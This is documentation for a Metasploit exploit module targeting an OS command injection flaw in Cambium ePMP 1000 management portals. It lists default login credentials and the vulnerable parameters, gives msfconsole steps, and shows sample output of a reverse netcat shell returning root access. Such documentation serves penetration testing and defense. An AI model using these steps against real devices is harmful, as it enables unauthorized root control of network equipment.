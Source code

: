 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell. This module injects the payload in 'timestamp' parameter. Alternatively, a second, vulnerable parameter 'measure' can also be used. The module has been tested on versions 3.1-3.5-RC7.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_get_chart_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Sample Output

  ```
msf > use use exploit/unix/http/epmp1000_get_chart_cmd_shell
msf exploit(epmp1000_get_chart_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_get_chart_cmd_shell) > set RPORT 80
msf exploit(epmp1000_get_chart_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_get_chart_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444 
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 5 opened (192.168.0.104:4444 -> 192.168.0.2:41941) at 2017-12-02 05:05:00 +0700

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  5   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:41941 (192.168.0.2)

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -i 5
[*] Starting interaction with 5...

id
uid=0(root) gid=0(root)

  ```

